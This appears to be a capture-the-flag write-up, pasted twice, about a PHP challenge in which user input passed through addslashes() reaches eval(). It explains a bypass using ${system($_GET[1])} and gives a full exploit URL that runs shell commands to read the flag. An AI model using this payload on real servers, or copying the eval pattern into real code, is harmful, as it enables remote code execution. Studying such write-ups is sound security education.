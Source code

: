 # LOKTOK WRITE ^UP^

---

## Vulnerable Code @ TimeModel.php

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
```
## vulnerable code + explination
```php
<?php
    public function getTime()
    { 
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    } 
?>
```
- eval(), Evaluate a string as PHP code
- we use this to get PHP code execution
- double qoutes are sanitized here

## Uh-Oh remember that double qoutes are sanitized!
```
so how do we bypass this???
instead of: ${system("ls")}
we would do: ${system($_GET[1])}&1=ls
```

---

## win

```
http://209.97.129.28:30441/?format=${system($_GET[1])}&1=cat%20../flagIcYOI
```
- we use ${system($_GET[1])}&1=ls as our payload
```php
         ^ ^      ^         ^
         | |      |         |
         | |      |         | & is our pointer to the index location 1, which we can use to execute arbitrary system commands via system() respectively 
         | |      |
         | |      | HTTP GET variable, we hold this dictionary with the key number "1" ; $_GET[1]
         | |
         | | Execute an external program and display the output
         | 
         | ${} provides a a way to embed a variable, array, or object property in a string.
```
> nano readme.md
> cat readme.md
# LOKTOK WRITE ^UP^

---

## Vulnerable Code @ TimeModel.php

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
```
## vulnerable code + explination
```php
<?php
    public function getTime()
    { 
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    } 
?>
```
- eval(), Evaluate a string as PHP code
- we use this to get PHP code execution
- double qoutes are sanitized here

## Uh-Oh remember that double qoutes are sanitized!
```
so how do we bypass this???
instead of: ${system("ls")}
we would do: ${system($_GET[1])}&1=ls
```

---

## win

```
http://209.97.129.28:30441/?format=${system($_GET[1])}&1=cat%20../flagIcYOI
```
- we use ${system($_GET[1])}&1=ls as our payload
```php
         ^ ^      ^         ^
         | |      |         |
         | |      |         | & is our pointer to the index location 1, which we can use to execute arbitrary system commands via system() respectively 
         | |      |
         | |      | HTTP GET variable, we hold this dictionary with the key number "1" ; $_GET[1]
         | |
         | | Execute an external program and display the output
         | 
         | ${} provides a a way to embed a variable, array, or object property in a string.
```
